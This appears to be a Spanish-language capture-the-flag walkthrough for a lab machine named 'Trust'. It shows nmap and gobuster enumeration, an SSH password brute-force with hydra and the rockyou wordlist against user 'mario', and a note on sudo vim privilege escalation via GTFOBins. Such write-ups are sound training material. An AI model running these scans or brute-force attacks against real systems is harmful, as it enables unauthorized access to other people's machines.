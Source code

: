 <h1 align="center">Trust</h1>

## 0. HERRAMIENTAS

- Hydra
- Binario VIM

## 1. ENUMERACION

Realizamos un escaneo de puertos

```jsx
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```

Vemos los puertos 22 y 80 abiertos

Cargamos la url y vemos la página por defecto de Apache

![image](https://github.com/user-attachments/assets/98e69a04-0cd9-4fbf-ab0d-09642178ff55)


En el código fuente tampoco vemos nada relevante.

Lanzamos un escaneo de url para buscar subdirectorios y ficheros

```jsx
 sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u '[http://172.17.0.2](http://172.17.0.2/)' -x 'html,txt,php,py'
```

Descubrimos el archivo secret.php

![image 2](https://github.com/user-attachments/assets/f42dd13c-081b-4c5c-836f-8685dfaa56f1)
![image 1](https://github.com/user-attachments/assets/63ed7238-3b0e-4501-b617-a7c9b8f22cd2)


En esa url podemos identificar un nombre a tener en cuenta

- mario

## 2. COMPROMISO DEL ENTORNO

Probamos a lanzar un ataque de fuerza bruta al usuario mario, protocolo ssh

```jsx
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

Encontramos la contraseña y procedemos a acceder con el usuario mario


![image 3](https://github.com/user-attachments/assets/ed0a3e98-0549-4fef-99a3-e4321a34c434)
![image 4](https://github.com/user-attachments/assets/c74731d9-4a72-432c-b234-a6a52cfb8a29)

## 3. ELEVACION DE PRIVILEGIOS

Comprobamos que podemos acceder a traves de un sudo -l 

![image 5](https://github.com/user-attachments/assets/492aed16-0281-465a-8777-01267687ce12)


y que podemos ejecutar el binario vim con cualquier usuario

Accedemos a gtfobins y comprobamos que se puede elevar privilegios a root con este binario

![image 6](https://github.com/user-attachments/assets/75232c5d-5ab5-49b8-8824-bdd27a579135)
![image 7](https://github.com/user-attachments/assets/5033c45b-0eb5-400f-bcae-5cea34e38c58)

